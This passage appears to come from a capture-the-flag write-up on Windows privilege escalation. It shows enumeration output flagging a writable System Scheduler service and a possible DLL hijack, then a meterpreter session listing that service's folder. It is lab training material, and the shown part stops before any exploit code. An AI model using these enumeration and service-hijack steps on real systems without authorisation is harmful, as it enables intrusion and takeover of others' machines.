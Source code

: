 ```
   [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
    C:\Program Files (x86)\SystemScheduler(Everyone [WriteData/CreateFiles])
    C:\Program Files\Amazon
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\Internet Explorer
    C:\Program Files\Uninstall Information
    C:\Program Files\Windows Mail
    C:\Program Files\Windows NT
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell
...
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    YOU CAN MODIFY THIS SERVICE: Start, AllAccess
    File Permissions: Everyone [WriteData/CreateFiles], SYSTEM [AllAccess], Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles], SYSTEM [AllAccess], Administrators [AllAccess])
    System Scheduler Service Wrapper
   =================================================================================================
  [+] Modifiable Services
...
    WSService: Start, WriteData/CreateFiles, TakeOwnership
```

In addition to a ton of information about the host, there appears to be an administrator set of credentials, as well as a service (WScheduler) that is locally modifiable and running as an administrative user. Since this appeared to be the intended attack vector, I decided to attack this further.

### Attacking WScheduler
I started by taking a look at the `WScheduler` service 
```
meterpreter > cd PrograProgram Files  "Program Files (x86)" 
meterpreter > cd SystemScheduler 
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler
===============================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40777/rwxrwxrwx   4096     dir   2019-08-04 11:36:53 +0000  Events
100666/rw-rw-rw-  60       fil   2019-08-04 11:36:42 +0000  Forum.url
100666/rw-rw-rw-  9813     fil   2019-08-04 11:36:42 +0000  License.txt
100666/rw-rw-rw-  1496     fil   2019-08-04 11:37:02 +0000  LogFile.txt
100666/rw-rw-rw-  3760     fil   2019-08-04 11:36:53 +0000  LogfileAdvanced.txt
100777/rwxrwxrwx  536992   fil   2019-08-04 11:36:42 +0000  Message.exe
100777/rwxrwxrwx  445344   fil   2019-08-04 11:36:42 +0000  PlaySound.exe
100777/rwxrwxrwx  27040    fil   2019-08-04 11:36:42 +0000  PlayWAV.exe
100666/rw-rw-rw-  149      fil   2019-08-04 11:36:53 +0000  Preferences.ini
100777/rwxrwxrwx  485792   fil   2019-08-04 11:36:42 +0000  Privilege.exe
100666/rw-rw-rw-  10100    fil   2019-08-04 11:36:42 +0000  ReadMe.txt
100777/rwxrwxrwx  112544   fil   2019-08-04 11:36:42 +0000  RunNow.exe
100777/rwxrwxrwx  235936   fil   2019-08-04 11:36:42 +0000  SSAdmin.exe
100777/rwxrwxrwx  731552   fil   2019-08-04 11:36:42 +0000  SSCmd.exe
100777/rwxrwxrwx  456608   fil   2019-08-04 11:36:42 +0000  SSMail.exe
100777/rwxrwxrwx  1633696  fil   2019-08-04 11:36:42 +0000  Scheduler.exe
100777/rwxrwxrwx  491936   fil   2019-08-04 11:36:42 +0000  SendKeysHelper.exe
100777/rwxrwxrwx  437664   fil   2019-08-04 11:36:42 +0000  ShowXY.exe
100777/rwxrwxrwx  439712   fil   2019-08-04 11:36:42 +0000  ShutdownGUI.exe
100666/rw-rw-rw-  785042   fil   2019-08-04 11:36:42 +0000  WSCHEDULER.CHM
```